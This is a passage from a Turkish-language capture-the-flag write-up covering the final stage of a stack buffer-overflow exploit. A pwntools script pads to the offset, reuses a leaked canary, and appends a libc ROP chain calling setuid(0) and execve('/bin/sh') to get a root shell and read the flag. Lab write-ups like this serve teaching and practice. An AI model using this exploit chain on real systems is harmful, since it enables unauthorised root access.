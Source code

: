 
Şimdi üçüncü ve son aşama olarak, son payload'umuzu oluşturacağız. Bunun için farklı yöntemler izleyebiliriz. En basit yöntemi `execve` sistem çağrısı ile kendimize bir root shell almak ve aldığımız root shell ile `/flag` dosyasını okumak.

> `/bin/sh` stringini içeren adresi LIBC üzerinden `ROPgadget --binary /usr/lib/x86_64-linux-gnu/libc.so.6 --string "/bin/sh" ` komutu ile öğrenebiliriz.

``` python
LIBC_BINSH = libc.address + 0x00000000001d8678


rop = ROP(libc)
rop.call("setuid", [0])
rop.call("execve", [LIBC_BINSH, 0, 0])


PAYLOAD = b"A".ljust(OFFSET, b"A")
PAYLOAD += p64(int(canary.decode(), 16))
PAYLOAD += p64(0xdeadbeef)
PAYLOAD += rop.chain()
p.send(PAYLOAD)
p.interactive()
```

Son olarak exploit kodumuzu `python3 exploit.py` komutu ile çalıştırdığımızda root shell'e sahip olup, flag'i başarılı bir şekilde okuyabildiğimizi göreceğiz.

![son](assets/son.png)


---